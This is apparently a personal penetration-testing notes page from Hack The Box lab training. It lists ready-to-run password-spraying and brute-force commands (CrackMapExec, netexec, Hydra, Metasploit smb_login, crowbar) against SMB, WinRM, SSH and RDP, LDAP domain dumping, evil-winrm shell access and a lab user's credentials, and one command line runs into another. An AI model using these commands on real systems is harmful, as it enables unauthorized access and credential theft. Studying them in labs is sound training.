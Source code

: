 #auth 

https://academy.hackthebox.com/storage/resources/Password-Attacks.zip

##### [[la1n-notes/Infra/services/SMB/SMB|SMB]], [[la1n-notes/Web/Injections/LDAP/LDAP]], [[mssql]], etc.
https://github.com/byt3bl33d3r/CrackMapExec
#CrackMapExec 
```shell
sudo apt-get -y install crackmapexec

# Dictionary-attack / Password-Spraying
crackmapexec winrm 10.129.42.197 -u user.list -p password.list
```

```shell
crackmapexec --verbose smb 10.129.42.197 -u "user" -p "password" --shares
```
#### [[la1n-notes/Infra/services/SMB/SMB|SMB]] enumeration
list shares
```bash
netexec smb 10.129.128.107  -u michael.wrightson -p Cicada$M6Corpb*@Lp#nZpsmbmap -H 10.129.128.107 --shares

nxc smb $ip -u $user -p $pwd --shares
```
#### #ldap 
Dump everything (domains/users/etc)
```bash
ldapdomaindump -u 'cicada.htb\michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' 10.129.128.107 -o dump
```


#### #evil-winrm 
#shell [[bind shell]]
to log in and get the shell:
```bash
sudo gem install evil-winrm
evil-winrm -i 10.129.42.197 -u user -p password
```

[[hydra]]
```shell-session
hydra -L user.list -P password.list ssh://10.129.42.197
```

```shell-session
 hydra -L user.list -P password.list rdp://10.129.42.197
```

```shell-session
 hydra -L user.list -P password.list smb://10.129.42.197
```

```bash
hydra -L user.list -P password.list 10.129.42.197 smb
```
##### [[RDP]]
```bash
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```
### Dictionary attack on [[la1n-notes/DRAFTS/SMB]] use [[metasploit]]
```shell
msfconsole -q
use auxiliary/scanner/smb/smb_login
set PASS_FILE password.list

set SMB_USER jason
set USER_FILE username.list

set stop_on_success true
set RHOST STMIP
run
```

### [[RDP]] Password Spraying
https://github.com/galkan/crowbar
Installation:
```bash
sudo apt install -y crowbar
# or
git clone https://github.com/galkan/crowbar
cd crowbar/
pip3 install -r requirements.txt
```

```bash
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
```

